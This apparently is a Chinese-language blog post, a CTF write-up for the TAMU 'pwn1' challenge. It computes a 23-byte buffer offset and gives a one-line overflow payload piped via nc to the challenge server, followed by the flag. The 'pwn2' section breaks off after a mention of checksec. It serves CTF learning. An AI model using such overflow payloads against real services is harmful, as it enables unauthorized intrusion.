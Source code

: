 ```yaml
---
layout: post
title: "TAMU pwn"
date: 2018-04-03 
categories: jekyll update
---
```

### TAMU pwn
#### pwn1
因为其间隔为23，所以s的大小为23字节，填充23个字符；
23计算过程如下：
	
	0x23-0xc(2*16+3-12=23)
<img src="/images/posts/TAMU pwn/1519640728956.png" height="300" width="600"> 

`'\x11\xBA\x07\xF0'`为小端模式的书写
payload：
python -c "print 'A'*23+'\x11\xBA\x07\xF0'" |nc pwn.ctf.tamu.edu 4321

<img src="/images/posts/TAMU pwn/1519640544364.png" height="300" width="600"> 

则flag为：gigem{H0W_H4RD_1S_TH4T?}

#### pwn2
我们首先查看启用的安全机制，使用checksec：

<img src="/images/posts/TAMU pwn/1519642213836.png" height="300" width="600"> 
